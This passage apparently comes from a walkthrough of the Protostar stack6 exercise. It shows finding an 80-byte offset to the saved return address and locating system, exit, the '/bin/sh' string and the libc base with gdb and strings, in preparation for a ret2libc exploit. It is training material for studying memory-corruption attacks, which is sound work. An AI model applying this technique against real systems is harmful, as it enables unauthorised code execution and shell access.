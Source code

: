 ```
```

![](offset.png)


So after 80 bytes we can overwrite the save eip.
Let's find the address of system and printf in the libc, we can use also gdb : 



```
(gdb) start
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Temporary breakpoint 1 at 0x8048500: file stack6/stack6.c, line 27.
Starting program: /opt/protostar/bin/stack6 

Temporary breakpoint 1, main (argc=1, argv=0xbffff864) at stack6/stack6.c:27
27	stack6/stack6.c: No such file or directory.
	in stack6/stack6.c
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>     <--- address of system
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7ec60c0 <*__GI_exit>  <--- address of exit
(gdb) 


```

Now we need to find the offset of the string '/bin/sh' in the libc

```
user@protostar:~$ strings -t x /lib/libc-2.11.2.so | grep -e '/bin/sh'
 11f3bf /bin/sh

```


Find the base address of the libc  : 

```
(gdb) run
(gdb) info proc map
process 3425
cmdline = '/opt/protostar/bin/stack6'
cwd = '/home/user'
exe = '/opt/protostar/bin/stack6'
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack6
	 0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack6
	0xb7e96000 0xb7e97000     0x1000          0        
	0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so  <---- the libc address
	0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
	0xb7fd9000 0xb7fdc000     0x3000          0        
	0xb7fe0000 0xb7fe2000     0x2000          0        
	0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
	0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
	0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
	0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
	0xbffeb000 0xc0000000    0x15000          0           [stack]
 
```
